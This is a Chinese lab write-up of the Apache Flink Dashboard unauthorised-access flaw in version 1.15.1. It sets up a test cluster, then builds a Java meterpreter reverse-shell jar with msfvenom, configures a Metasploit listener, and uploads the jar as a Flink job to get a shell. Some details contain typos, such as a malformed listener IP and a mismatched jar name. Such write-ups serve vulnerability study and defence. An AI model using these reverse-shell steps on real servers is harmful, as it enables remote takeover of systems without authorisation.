




# Apache Flink未授权访问漏洞

## 漏洞描述

Apache Flink Dashboard默认没有用户权限认证，攻击者可以通过未授权的Flink Dashboard控制台直接上传木马jar包，可远程执行任意系统命令获取服务器权限。

## 环境搭建

测试版本：flink-1.15.1

修改`flink-1.15.1/confflink-conf.yaml`，将8081端口开启。



启动flink

```
start-cluster.sh
```


## 漏洞利用

访问web页面。



利用msfovenom生成rce.jar

```
┌──(root💀kali)-[/tmp]
└─# msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.32.130 LPORT=4444 -f jar > rce.jar
Payload size: 5310 bytes
Final size of jar file: 5310 bytes
```

配置msf监听

```
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 1291.68.32.130
lhost => 1291.68.32.130
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run

```

在Submit New Job处上传`rec.jar`文件，点击submit。



成功getshell。

